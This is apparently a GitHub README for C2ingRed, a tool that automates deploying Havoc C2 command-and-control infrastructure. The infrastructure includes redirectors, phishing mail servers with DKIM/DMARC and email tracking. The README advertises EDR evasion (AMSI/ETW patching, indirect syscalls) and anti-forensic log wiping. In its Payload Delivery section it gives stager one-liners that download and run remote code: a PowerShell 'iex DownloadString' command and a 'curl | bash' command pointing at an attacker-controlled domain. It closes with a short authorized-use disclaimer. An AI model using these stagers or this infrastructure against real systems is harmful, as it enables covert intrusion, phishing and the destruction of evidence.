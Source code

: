 # C2ingRed

A comprehensive automated deployment system for Havoc C2 red team infrastructure.

## Overview

C2ingRed enables rapid deployment of complete Command and Control (C2) infrastructure with advanced security hardening, EDR evasion capabilities, and operational security features. Built for professional red team operators, this tool uses Infrastructure as Code principles to efficiently set up Havoc C2 servers, redirectors, and additional components.

## Features

- **Multi-provider Support**: AWS, Linode, and FlokiNET
- **Infrastructure Components**:
  - C2 server with Havoc C2 Framework (dev branch)
  - HTTPS redirectors with security hardening
  - Email infrastructure with DKIM/DMARC for phishing
  - Email tracking capabilities
  - Automated payload generation and delivery
- **Security Features**:
  - Zero-logging configuration to minimize evidence
  - Memory protection mechanisms
  - Command history suppression
  - Secure exfiltration tunnels
  - Strong firewall configurations
  - Fail2Ban and other defensive measures
- **EDR Evasion**:
  - Sleep masking
  - Stack spoofing
  - AMSI/ETW patching
  - Indirect syscalls
  - Binary signature randomization
- **Operational Capabilities**:
  - Automated post-exploitation payload building
  - Reverse shell handler with automatic agent deployment
  - Let's Encrypt SSL certificate automation
  - Payload synchronization between C2 and redirectors
  - Port randomization for OPSEC

## Requirements

- Python 3.6+
- Ansible 2.9+
- Provider-specific credentials:
  - AWS: Access and secret keys
  - Linode: API token
  - FlokiNET: Pre-provisioned servers
- SSH keypair for server access
- Registered domain (required for Let's Encrypt certificates)

## Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/C2ingRed.git
cd C2ingRed

# Install requirements
pip install -r requirements.txt

# Ensure Ansible is installed
ansible --version
```

## Usage

### Main Menu (Easiest Method)

Simply run:
```bash
python3 deploy.py
```

This launches the interactive main menu for deployment, providing the most user-friendly experience with guided options for all infrastructure types.

### Interactive Mode

Alternatively, you can use:
```bash
./deploy.py --interactive
```

This guides you through the deployment process with step-by-step instructions.

### Command-line Deployment

#### AWS Deployment:
```bash
./deploy.py --provider aws --aws-key YOUR_KEY --aws-secret YOUR_SECRET \
            --domain your-domain.com --aws-region us-east-1
```

#### Linode Deployment:
```bash
./deploy.py --provider linode --linode-token YOUR_TOKEN \
            --domain your-domain.com --linode-region us-east
```

#### FlokiNET Deployment (with pre-provisioned servers):
```bash
./deploy.py --provider flokinet --flokinet-redirector-ip YOUR_REDIRECTOR_IP \
            --flokinet-c2-ip YOUR_C2_IP --domain your-domain.com
```

### Deployment Options

| Option | Description |
|--------|-------------|
| `--redirector-only` | Deploy only the redirector component |
| `--c2-only` | Deploy only the C2 server component |
| `--deploy-tracker` | Deploy email tracking server |
| `--integrated-tracker` | Setup tracker on C2 server instead of separate instance |
| `--disable-history` | Disable command history on servers |
| `--secure-memory` | Enable secure memory protection features |
| `--zero-logs` | Configure zero-logging throughout infrastructure |
| `--randomize-ports` | Use randomized ports for C2 communications |
| `--ssh-after-deploy` | Automatically SSH into the server after deployment |

## Post-Deployment Steps

After successful deployment:

1. Configure DNS records for your domain:
   - `your-domain.com` → C2 server
   - `mail.your-domain.com` → C2 server
   - `cdn.your-domain.com` → Redirector (or your custom subdomain)
   - `track.your-domain.com` → Tracker (if deployed)

2. Run post-install scripts on each server:
   ```bash
   # On C2 server
   /root/Tools/post_install_c2.sh
   
   # On redirector
   /root/Tools/post_install_redirector.sh
   ```

3. Generate Havoc C2 payloads:
   ```bash
   # On C2 server
   /root/Tools/generate_havoc_payloads.sh
   ```

## Using Havoc C2

Havoc C2 Framework is installed at `/root/Tools/Havoc` on the C2 server.

### Connecting to the Teamserver

From your local machine:

```bash
# Install Havoc client (development branch)
git clone -b dev https://github.com/HavocFramework/Havoc.git
cd Havoc/Client
mkdir build && cd build
cmake -GNinja ..
ninja

# Connect to Teamserver
./havoc client --address YOUR_C2_IP:40056 --username admin --password [password]
```

The password is stored in `/root/Tools/Havoc/data/profiles/default.yaotl` on the C2 server.

### Payload Delivery

PowerShell one-liner for Windows targets:
```powershell
powershell -exec bypass -c "iex(New-Object Net.WebClient).DownloadString('https://cdn.your-domain.com/windows_stager.ps1')"
```

Linux one-liner:
```bash
curl -s https://cdn.your-domain.com/linux_stager.sh | bash
```

## Security Considerations

- All servers include the `/root/Tools/secure-exit.sh` script to securely wipe operational data
- The `/root/Tools/clean-logs.sh` script automatically runs to remove evidence
- Port randomization enhances OPSEC when enabled
- Set proper DKIM/DMARC records for email operations
- Consider using ephemeral infrastructure for high-risk operations

## Cleaning Up

To remove all infrastructure when finished:

```bash
./deploy.py --provider PROVIDER --teardown --deployment-id YOUR_DEPLOYMENT_ID
```

Add your provider-specific authentication arguments to remove the correct resources.

## Disclaimer

This tool is intended for authorized red team operations, penetration testing, and security research only. Always obtain proper authorization before conducting security testing. The authors are not responsible for misuse or illegal activities.